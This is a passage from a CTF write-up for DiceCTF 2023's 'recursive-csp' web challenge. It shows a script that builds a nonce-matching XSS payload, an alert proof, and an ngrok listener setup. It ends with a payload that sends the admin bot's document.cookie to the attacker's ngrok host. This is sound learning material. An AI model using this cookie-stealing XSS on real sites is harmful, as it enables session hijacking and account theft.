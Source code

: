 ```py
#!/usr/bin/env python3

import urllib.parse

def main():
    url = 'https://recursive-csp.mc.ax/?name='
    XSSpayload = ''.join(open('payload.txt', 'r'))
    matchedBytes = '%c3%71%37%2f'

    print(f'URL encoded Payload:\n{url}{urllib.parse.quote(XSSpayload)}{matchedBytes}')

if __name__ == '__main__':
    main()
```

```shell
┌[siunam♥earth]-(~/ctf/DiceCTF-2023/Web/recursive-csp)-[2023.02.08|17:51:09(HKT)]
└> python3 url_encode_payload.py
URL encoded Payload:
https://recursive-csp.mc.ax/?name=%3Cscript%20nonce%3D%22f4dbdf21%22%3Ealert%28document.domain%29%3C/script%3E%3a%76%db%41
```

**Finally, copy and paste that URL encoded payload:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/DiceCTF-2023/images/Pasted%20image%2020230208175246.png)

Boom!! We successfully triggered an alert box, as the nonce value is matched!!

**Now, to retrieve admin bot's cookie, we can modify the XSS payload.**

But first, we need to:

**Setup Ngrok HTTP port forwarding and Python Simple HTTP server:** (Or you can just use [Webhook.site](https://webhook.site/))
```shell
┌[siunam♥earth]-(~/ctf/DiceCTF-2023/Web/recursive-csp)-[2023.02.08|17:59:20(HKT)]
└> ngrok http 8000
[...]
Web Interface                 http://127.0.0.1:4040                                                        
Forwarding                    https://2330-{Redacted}.ap.ngrok.io -> http://localhost:8000
[...]
```

```shell
┌[siunam♥earth]-(~/ctf/DiceCTF-2023/Web/recursive-csp)-[2023.02.08|17:59:57(HKT)]
└> python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

**Then we can modify the XSS payload:**
```shell
┌[siunam♥earth]-(~/ctf/DiceCTF-2023/Web/recursive-csp)-[2023.02.08|18:01:03(HKT)]
└> echo -n '<script nonce="f4dbdf21">document.location="https://2330-{Redacted}.ap.ngrok.io?"+document.cookie</script>' > payload.txt
```

